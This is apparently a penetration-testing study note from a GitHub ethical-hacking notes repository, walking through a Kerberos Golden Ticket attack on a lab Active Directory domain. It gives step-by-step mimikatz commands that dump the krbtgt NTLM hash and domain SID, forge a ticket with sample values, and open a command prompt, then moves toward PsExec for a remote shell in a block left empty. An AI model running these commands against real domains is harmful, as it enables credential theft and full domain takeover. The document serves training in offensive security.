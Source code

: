 
## **Overview**

- [ ] **What is it ?**
	- When we compromise the krbtgt account, we own the domain
	- We can request access to any resource or system on the domain
	- Golden tickets == Complete access to every machine

- [ ] We can utilize `mimikatz` to obtain the information necessary to perform this attack
- [ ] There are a couple of conditions need to be met 
	- We need the krbtgt NTLM hash
	- We also need the domain SID 
- [ ] Once we have this we can generate our golden ticket and once it is generated we can use an attack call **Pass-the-Ticket** in other to utilize this anywhere
- [ ] We can think of a **Golden Ticket** attack as **Persistence**

## **Attack Scenario**

First of all make sure you transfer `mimikatz` to your domain controller then we can start it through the **Command Prompt**

```powershell
# start mimikatz
C:\Users\Administrator\Downloads>mimikatz.exe

# Elevate to highest integrity level
mimikatz # privilege::debug
mimikatz # token::elevate
```


### **Dumping the SID and NTLM hash**

```powershell
# Dump the sid and NTLM hash of the krbtgt user
mimikatz # lsadump::lsa /inject /name:krbtgt
```


#### **Example**

![](https://i.imgur.com/4XcWt6w.png)

**Note :** Copy both the SID and NTLM hash to your note pad on your DC



### **Generating Tickets**

```powershell
# /User : fake user account
# /domain : domain controller
# /sid : the sid we saved to note pad
# /krbtgt : the NTLM hash 
# /id : administrator RID for advanced privileges
# /ptt : pass-the-ticket option

mimikatz # kerberos::golden /User:secfortress /domain:marvel.local /sid:S-1-5-21-4089637540-2738901061-2314813381 /krbtgt:f362ad348de4e7392c0309959ec0775d /id:500 /ptt
```

#### **Example**


![](https://i.imgur.com/qgE2uyK.png)


### **Executing Command remotely**
Once you have the prompt as shown i the previous example do this :

```powershell
mimikatz # misc::cmd
```

You should see a new command prompt we can execute commands as any user from here.


#### **Example**



![](https://i.imgur.com/2DBD485.png)


We can then further our attack and gain a shell on remote target with `PsExec.exe` 
 - Download the file from [here](https://github.com/sec-fortress/Practical-Ethical-Hacking-Notes/blob/main/PsExec.exe) and transfer it to the DC downloads folder
 - On your command prompt run

```powershell

```
